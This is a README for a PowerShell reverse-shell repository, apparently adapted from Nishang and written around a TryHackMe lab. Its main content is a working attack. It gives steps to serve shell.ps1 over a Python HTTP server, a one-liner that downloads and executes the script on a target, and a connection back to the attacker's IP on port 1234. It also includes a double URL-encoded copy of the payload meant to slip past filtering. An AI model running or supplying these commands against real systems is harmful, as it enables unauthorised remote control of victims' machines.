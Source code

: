 # powershell-reverse-shell
its a simple powershell script took from nishanga a usefully for reverse shell most for windows, so as i can't get hard time most to get a reverse shell on windows


# how to run the powershell script and get a reverse shell(usage)
1. open a simple python server and make sure the script is right there were you have opened the server
command: python3 -m http.server 81

where: 
port 81 (is where i have decided to open the port coz for me port 80 was already in used)
ip_address: 10.8.58.50 (check via ifconfig command or ip a| grep tun0)

**NB**: After you have saved this script and opened a server now u can execute the following command on the target machine
2. there multiple ways to do this first all u need to save the file as saved for me as shell.ps1 and after u need to execute the following command the target machine(anyway vulnerable that can allow you to run command or execute commands

**command**: powershell -c iex (New-Object Net.WebClient).DownloadString('http://10.8.58.50:81/shell.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.8.58.50 -Port 1234

NB: sometimes this command may not work so u can just incode the command either online or anything i love doing this with burpsuite course it is easy
Forexample with a tryhackme  room(iron corp , in order to get a reverse shell you were supporsed to encode the payload more than two times

## my encoded payload
%25%37%30%25%36%66%25%37%37%25%36%35%25%37%32%25%37%33%25%36%38%25%36%35%25%36%63%25%36%63%25%32%30%25%32%64%25%36%33%25%32%30%25%36%39%25%36%35%25%37%38%25%32%30%25%32%38%25%34%65%25%36%35%25%37%37%25%32%64%25%34%66%25%36%32%25%36%61%25%36%35%25%36%33%25%37%34%25%32%30%25%34%65%25%36%35%25%37%34%25%32%65%25%35%37%25%36%35%25%36%32%25%34%33%25%36%63%25%36%39%25%36%35%25%36%65%25%37%34%25%32%39%25%32%65%25%34%34%25%36%66%25%37%37%25%36%65%25%36%63%25%36%66%25%36%31%25%36%34%25%35%33%25%37%34%25%37%32%25%36%39%25%36%65%25%36%37%25%32%38%25%32%37%25%36%38%25%37%34%25%37%34%25%37%30%25%33%61%25%32%66%25%32%66%25%33%31%25%33%30%25%32%65%25%33%38%25%32%65%25%33%35%25%33%38%25%32%65%25%33%35%25%33%30%25%33%61%25%33%38%25%33%31%25%32%66%25%37%33%25%36%38%25%36%35%25%36%63%25%36%63%25%32%65%25%37%30%25%37%33%25%33%31%25%32%37%25%32%39%25%33%62%25%34%39%25%36%65%25%37%36%25%36%66%25%36%62%25%36%35%25%32%64%25%35%30%25%36%66%25%37%37%25%36%35%25%37%32%25%35%33%25%36%38%25%36%35%25%36%63%25%36%63%25%35%34%25%36%33%25%37%30%25%32%30%25%32%64%25%35%32%25%36%35%25%37%36%25%36%35%25%37%32%25%37%33%25%36%35%25%32%30%25%32%64%25%34%39%25%35%30%25%34%31%25%36%34%25%36%34%25%37%32%25%36%35%25%37%33%25%37%33%25%32%30%25%33%31%25%33%30%25%32%65%25%33%38%25%32%65%25%33%35%25%33%38%25%32%65%25%33%35%25%33%30%25%32%30%25%32%64%25%35%30%25%36%66%25%37%32%25%37%34%25%32%30%25%33%31%25%33%32%25%33%33%25%33%34
